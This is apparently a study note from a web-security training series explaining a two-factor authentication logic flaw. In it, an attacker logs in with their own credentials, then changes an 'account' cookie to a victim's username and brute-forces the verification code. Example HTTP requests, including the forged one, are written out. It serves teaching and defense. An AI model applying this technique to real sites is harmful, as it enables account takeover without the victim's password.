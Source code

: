 # 09. Flawed two-factor verification logic

## 🚨 Logic Flaw in Two-Factor Authentication

> Sometimes flawed logic in two-factor authentication means that after a user completes the first login step, the website doesn't adequately verify that the same user is completing the second step.
> 

---

### 🧪 **Example Scenario**

1. 👤 The user logs in with normal credentials:

```
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty

```

1. 🍪 They are assigned a cookie that relates to their account:

```
HTTP/1.1 200 OK
Set-Cookie: account=carlos

```

1. 👉 They're then taken to the second login step:

```
GET /login-steps/second HTTP/1.1
Cookie: account=carlos

```

1. 🔢 The verification code is submitted and the request uses this cookie to determine the account:

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456

```

---

### 🧨 **Vulnerability**

In this flawed logic flow, an **attacker** can:

- Log in using **their own credentials**
- Then **change the value of the account cookie** to target **any arbitrary user** when submitting the 2FA code.

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456

```

---

### ⚠️ **Impact**

✅ This becomes **extremely dangerous** if the attacker can **brute-force the verification code**.

🚫 They would gain access to **any user's account** based solely on the username,

🔐 **without needing to know the user's password**.